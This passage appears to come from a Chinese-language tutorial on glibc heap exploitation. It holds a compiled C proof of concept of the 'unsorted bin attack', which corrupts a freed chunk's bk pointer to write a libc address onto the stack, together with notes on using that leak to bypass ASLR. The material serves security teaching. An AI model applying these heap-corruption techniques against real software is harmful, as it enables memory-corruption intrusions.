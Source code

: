 \begin{verbatim}
#include <stdio.h>
#include <stdlib.h>

int main() {
    unsigned long stack_var = 0;
    fprintf(stderr, "The target we want to rewrite on stack: %p -> %ld\n\n", &stack_var, stack_var);

    unsigned long *p = malloc(0x80);
    unsigned long *p1 = malloc(0x10);
    fprintf(stderr, "Now, we allocate first small chunk on the heap at: %p\n",p);

    free(p);
    fprintf(stderr, "We free the first chunk now. Its bk pointer point to %p\n", (void*)p[1]);

    p[1] = (unsigned long)(&stack_var - 2);
    fprintf(stderr, "We write it with the target address-0x10: %p\n\n", (void*)p[1]);

    malloc(0x80);
    fprintf(stderr, "Let's malloc again to get the chunk we just free: %p -> %p\n", &stack_var, (void*)stack_var);
}
\end{verbatim}

编译运行之，得到结果：
\begin{verbatim}
$ gcc -g unsorted_bin_attack.c 
$ ./a.out 
The target we want to rewrite on stack: 0x7ffc9b1d61b0 -> 0

Now, we allocate first small chunk on the heap at: 0x1066010
We free the first chunk now. Its bk pointer point to 0x7f2404cf5b78
We write it with the target address-0x10: 0x7ffc9b1d61a0

Let's malloc again to get the chunk we just free: 0x7ffc9b1d61b0 -> 0x7f2404cf5b78
\end{verbatim}

\verb+ unsorted_bin_attack+通常情况下是为了更进一步的利用所做的铺垫，我们已经知道\verb+ unsorted bin+是一个双向链表，在分配时会通过\verb+ unlink+操作将\verb+ chunk+从链表中移除，所以如果能够控制\verb+ unsorted bin chunk+的\verb+ bk+指针，就可以向任意位置写入一个指针。

这里通过\verb+ unlink+将\verb+ libc+的信息写入到我们可控的内存中，从而导致信息泄漏，为进一步的攻击提供便利，如泄露了\verb+ libc+的某些函数的地址，如果我们通过其他方式获取到了\verb+ libc+的版本信息，就可以通过偏移算出其他函数的地址，可以绕过 ASLR的保护。

\subsection{house\_of\_spirit}

